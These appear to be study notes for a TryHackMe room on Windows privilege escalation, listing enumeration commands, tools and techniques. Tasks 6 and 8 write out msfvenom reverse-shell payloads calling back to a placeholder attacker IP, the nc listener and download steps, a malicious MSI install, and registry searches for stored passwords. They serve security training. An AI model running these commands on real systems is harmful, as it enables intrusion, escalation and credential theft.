 # Room
https://tryhackme.com/room/winprivesc

# Task 1 - intro
* intro
* example Windows account user levels
    * administrator (local)
    * standard (local)
    * guest
    * standard (domain)
    * administrator (domain)
* other non user accounts
    * SYSTEM
* resources
    * https://github.com/sagishahar/lpeworkshop

# Task 2 - information gathering
* user enumeration
    * whoami /priv
    * net users
    * net user [username]
    * qwinsta
    * query session
    * net localgroup
    * net localgroup [groupname]
* system enumeration
    * systeminfo
    * hostname
* file searching
    * findstr
* patch levels
    * wmic qfe get Caption,Description,HotFixID,InstalledOn
* network connections
    * netstat -ano
* scheduled tasks
    * schtasks
    * schtasks /query /fo LIST /v
* drivers
    * driverquery
* services
    * sc query
    * sc query windefend
    * sc queryex type=service

# Task 3 - tools of the trade
* resources
    * winpeas : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
    * powerup : https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
    * windows exploit suggester : https://github.com/AonCyberLabs/Windows-Exploit-Suggester
    * windows exploit suggester NG : https://github.com/bitsadmin/wesng

# Task 4 - vulnerable software
* wmic
    * wmic product
    * wmic product get name,version,vendor
    * wmic service list brief
* sc
    * sc query

# Task 5 - dll hijacking
* dll hijacking allows you to inject code into an application
* dll - dynamic link library
* dlls store additional functions outside of the main application
* Windows stores many dll files in the c:\windows\system32 directory
* a single dll file can be used by many different applications
* dll hijacking protections
    * safedllsearchmode
    * https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order
* finding entry points for dll hijacking
    * procmon
* creating malicious dlls
    * apt install gcc-mingw-w64-x86-64
    * x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
    * sc stop dllsvc
    * sc start dllsvc

# Task 6 - unquoted service path
* when the binary path to a service is not enclosed in quotes
* unquoted: c:\program files\program\abc.exe
* quoted: "c:\program files\program\abc.exe"
* how to find unquoted service paths
    * winpeas
    * powerup
* check writable permissions of a directory
    * accesschk64.exe /accepteula -uwdq "c:\program files\"
* sc qc unquotedsvc
* msfvenom can be used to create a simple reverse shell to exploit the vulnerable unquoted service path
    * attacker: msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attacker_ip] LPORT=[attacker_port] -f exe > Common.exe
    * attacker: python -m http.server 8383
    * attacker: nc -nvlp [attacker_port]
    * target: wget -O Common.exe http://[attacker_ip]:8383/Common.exe
    * target: copy Common.exe "c:\program files\unquoted path service\Common.exe"
    * target: sc start unquotedsvc
    * attacker: catch shell

# Task 7 - token impersonation
* security tokens can be used by the user through impersonation
* whoami /priv
* exploits
    * hot potato example
        * 1 - look for systems that use wpad
        * 2 - request intercepted by exploit, redirected to 127.0.0.1
        * 3 - target asks for proxy config - wpad.dat
        * 4 - malicous wpad.dat is sent to target
        * 5 - target system tries to connect to proxy through malicious wpad.dat
        * 6 - exploit asks target to perform NTLM auth
        * 7 - target sends NTLM handshake
        * 8 - handshake is received and relayed to an SMB service to create a process, this process has the privilege level of the service (wpad) that was targeted

# Task 8 - quick wins
* scheduled tasks
    * schtasks
* alwaysinstallelevated
    * reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    * reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    * attacker: msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attacker_ip] LPORT=[attacker_port] -f msi -o mal.msi
    * target: msiexec /quiet /qn /i mal.msi
* saved creds
    * cmdkey /list
    * runas
    * runas /savecred /user:admin shell.exe
* reg keys
    * reg query HKLM /f password /t REG_SZ /s
    * reg query HKCU /f password /t REG_SZ /s
* unattend files
    * files that should have been deleted after setup